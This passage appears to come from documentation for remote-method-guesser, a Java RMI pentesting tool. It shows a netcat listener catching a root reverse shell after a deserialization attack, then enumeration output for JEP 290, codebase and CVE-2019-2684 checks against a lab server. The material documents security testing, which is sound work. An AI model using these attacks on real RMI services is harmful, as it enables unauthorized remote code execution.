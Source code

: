 On another terminal, you can confirm that the *deserialization attack* was indeed successful:

```console
[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.18.0.2.
Ncat: Connection from 172.18.0.2:33451.
id
uid=0(root) gid=0(root) groups=0(root)
```

Notice that in the beginning of 2020, the ``unmarshalValue`` method of the ``UnicastRef`` class was changed to handle ``java.lang.String`` in a special way.
Apart from primitive types, also ``java.lang.String`` can now no longer be used for the above mentioned attack on recent *Java* versions. However, other
non primitive types are still vulnerable.


#### General Deserialization Attacks (reg|dgc)

Apart from *remote methods* on the application level, *RMI* endpoints also expose well known *remote* methods that are needed for the internal *RMI communication*.
In the old days (before *JEP 290*), these internal *remote methods* were vulnerable to exactly the same deserialization attacks as described above. However,
with *JEP 290* deserialization filters were implemented for all internal *RMI communication* and deserialization attacks were (theoretically) no longer possible. 

During it's *enum* action, *remote-method-guesser* already checks whether *JEP290* is installed on the targeted server. For testing purposes you can use the
[example-server](https://github.com/qtc-de/beanshooter/packages/398561) of the [beanshooter](https://github.com/qtc-de/beanshooter) project, which is running
an unpatched version of *Java*. The following output shows that *remote-method-guesser* successfully identifies the missing *JEP 290* installation:

```console
[qtc@kali ~]$ rmg --ssl 172.18.0.2 9010
[+] Creating RMI Registry object... done.
[+] Obtaining list of bound names... done.
[+] 1 names are bound to the registry.
[+] RMI object tries to connect to different remote host: iinsecure.dev
[+] 	Redirecting the ssl connection back to 172.18.0.2... 
[+] 	This is done for all further requests. This message is not shown again. 
[+] 
[+] Listing bound names in registry:
[+] 
[+] 	- jmxrmi
[+] 		--> javax.management.remote.rmi.RMIServerImpl_Stub (known class)
[+] 
[+] RMI server codebase enumeration:
[+] 
[+] 	- The remote server does not expose any codebases.
[+] 
[+] RMI server String unmarshalling enumeration:
[+] 
[+] 	- Server attempted to deserialize object locations during lookup call.
[+] 	  --> The type java.lang.String is unmarshalled via readObject().
[+] 
[+] RMI server useCodebaseOnly enumeration:
[+] 
[+] 	- Caught ClassCastException during lookup call.
[+] 	  --> The server ignored the provided codebase (useCodebaseOnly=true).
[+] 
[+] RMI registry localhost bypass enumeration (CVE-2019-2684):
[+] 
[+] 	Caught AccessException during unbindcall.
```